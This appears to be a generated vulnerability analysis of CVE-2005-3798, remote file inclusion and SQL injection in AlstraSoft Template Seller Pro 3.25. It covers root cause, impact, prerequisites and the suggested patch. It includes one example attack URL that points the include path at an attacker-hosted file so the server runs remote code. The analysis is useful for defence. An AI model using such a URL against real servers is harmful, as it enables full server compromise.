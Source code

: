 Based on the provided content, here's an analysis of CVE-2005-3798:

**Root Cause of Vulnerability:**

The primary root cause is the lack of proper input validation in AlstraSoft Template Seller Pro 3.25. This manifests in two key ways:
  1.  **register_globals enabled**:  The `payment_paypal.php` script is vulnerable when `register_globals` is enabled in PHP. This allows attackers to manipulate the `$config[basepath]` variable via a URL parameter, including an arbitrary PHP file from a remote server, and the trailing '?' passes the original include file as a parameter to the injected file.
  2.  **SQL Injection**: User-supplied variables, particularly the username (`user_name`) in `admin/index.php`, are directly inserted into SQL queries without sanitization. This enables SQL injection attacks.

**Weaknesses/Vulnerabilities Present:**

1.  **Arbitrary Code Execution:** The ability to include and execute arbitrary remote PHP code due to the `register_globals` vulnerability in `payment_paypal.php`.
2.  **SQL Injection:** Vulnerable SQL queries in `admin/index.php` and potentially other areas due to lack of input validation, allowing attackers to manipulate database queries.

**Impact of Exploitation:**

1.  **Arbitrary Code Execution:** An attacker can gain full control over the server by executing arbitrary code. This can lead to data theft, malware injection, defacement, and complete server compromise.
2.  **SQL Injection:** An attacker can potentially read, modify, or delete sensitive data stored in the database, including user credentials and other application data. It can also allow for privilege escalation and further access to the server.

**Attack Vectors:**

1.  **Arbitrary Code Execution:**
    -   The attacker crafts a URL containing malicious code in the `config[basepath]` parameter when register_globals is enabled.
    -   Example URL: `http://www.example.com/include/paymentplugins/payment_paypal.php?config[basepath]=[http://youhost.com/our-code.txt?](http://youhost.com/our-code.txt)`

2.  **SQL Injection:**
    -   The attacker provides malicious SQL code in the `user_name` field during login in the `/admin/index.php` page.

**Required Attacker Capabilities/Position:**

1.  **Arbitrary Code Execution:**
    -   The attacker needs the ability to send HTTP requests to the server running Template Seller Pro.
    -   The PHP configuration on the server must have `register_globals` enabled, and safe mode must be off.
2.  **SQL Injection:**
    - The attacker needs to be able to access the login form at /admin/index.php.
    - No special privileges are required beyond standard web access.
    - Knowledge of SQL syntax is required to craft the injection.

**Additional Information:**

- The advisory also mentions that "Nearly NO user-submitted variable is validated," indicating that other SQL injection vulnerabilities might exist.
-   The suggested patch involves defining a constant (`IN_SYS`) and checking for its presence to prevent direct access to the PHP files and activating `magic_quotes_gpc` to mitigate SQL injection (though this is a deprecated and insufficient measure now).

**Summary**
The vulnerability in AlstraSoft Template Seller Pro 3.25 is due to a combination of poor coding practices, specifically reliance on register_globals and lack of input validation. This leads to high-risk vulnerabilities like arbitrary code execution and SQL injection.